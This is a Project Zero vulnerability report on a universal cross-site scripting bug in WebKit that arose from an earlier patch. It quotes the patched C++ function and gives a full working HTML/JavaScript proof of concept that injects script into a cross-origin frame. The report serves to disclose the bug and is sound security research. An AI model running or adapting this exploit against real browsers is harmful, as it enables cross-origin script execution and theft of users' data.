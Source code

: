 # UXSS: the patch of #1110 made another bug
### Reported by lokihardt@google.com, Feb 16 2017

Here's the patch of #1110.
https://trac.webkit.org/changeset/212218/trunk/Source/WebCore/dom/ContainerNode.cpp

```cpp
void ContainerNode::parserRemoveChild(Node& oldChild)
{
    disconnectSubframesIfNeeded(*this, DescendantsOnly); <<---- (a)
    ...
}
```

(a) was added for the fix. But in |disconnectSubframesIfNeeded|, which fires unload event handlers, |oldChild|'s parent may be replaced. As a result, subframes of |oldChild| will be not detached.

PoC:
```html
<body>
    <div>
        <b>
            <p>
                <script>
                d = document.querySelector('div');
                p = document.querySelector('p');
                p.parentElement.appendChild(document.createElement('iframe')).contentWindow.onunload = () => {
                    document.body.appendChild(p);
                    d.remove();

                    f = p.appendChild(document.createElement('iframe'));
                    f.onload = () => {
                        f.onload = null;

                        document.documentElement.innerHTML = '';

                        f.src = 'javascript:alert(location)';

                        let xml = `
<svg xmlns="http://www.w3.org/2000/svg">
<script>
document.documentElement.appendChild(document.createElementNS('http://www.w3.org/1999/xhtml', 'iframe')).contentWindow.onunload = () => {
    document.documentElement.appendChild(parent.f.parentElement.parentElement.parentElement);
};
</sc` + `ript>
<element a="1" a="2" />
</svg>`;

                        let tmp = document.documentElement.appendChild(document.createElement('iframe'));
                        tmp.src = URL.createObjectURL(new Blob([xml], {type: 'text/xml'}));
                    };
                    f.src = 'https://abc.xyz/';
                };
                </script>
            </b>
        </p>
    </div>
</body>
```

https://bugs.chromium.org/p/project-zero/issues/detail?id=1132
